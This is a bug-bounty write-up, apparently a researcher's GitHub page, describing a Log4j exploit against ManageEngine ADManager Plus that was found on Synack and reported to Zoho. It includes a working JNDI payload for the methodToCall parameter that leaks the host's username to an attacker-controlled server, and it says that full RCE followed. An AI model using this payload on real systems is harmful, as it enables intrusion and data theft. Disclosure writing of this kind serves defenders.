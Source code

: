 ### Description

In the summer of 2022, I have been doing security engagement on Synack Red Team in the collaboration with my good friend (Thura Moe Myint). At that time, Log4j was already widespread on the internet. Manage Engine had already patched the Ad Manager Plus to prevent it from being affected by the Log4j vulnerability. They had mentioned that Log4j was not affected by Ad Manager Plus. However, we determined that the Ad Manager Plus was running on our target and managed to exploit the Log4j vulnerability.

### Exploitation

First, Let’s make a login request using  proxy.

![](https://raw.githubusercontent.com/channyein1337/research/main/images/admanager.png)

Inject the following payload in the ```methodToCall``` parameter in the ```ADSearch.cc``` request.

```
${jndi:ldap://${sys:user.name}.<your-server>}
```

![](https://raw.githubusercontent.com/channyein1337/research/main/images/burp_request.png)

Then you will get the dns callback with username in your burp collabrator.

![](https://raw.githubusercontent.com/channyein1337/research/main/images/username.png)

POC Of Achieving Full RCE

![](https://raw.githubusercontent.com/channyein1337/research/main/images/poc.png)


### Notes

When we initially reported this vulnerability to Synack, we only managed to get a DNS callback and our report was marked as LDAP injection. However, we attempted to gain full RCE on the host but were not successful. Later, we discovered that Ad Manager Plus was running on another target, so we tried to get full RCE on that target. We realized that there was a firewall and an anti-virus running on the machine, so most of our payloads wouldn't work. After spending a considerable amount of time , we eventually managed to  bypass the firewall and anti-virus, and achieve full RCE.

### Conclusion

We had already informed Zoho about the log4j vulnerability, and even after it was fixed, they decided to reward us with a bonus bounty for our report.
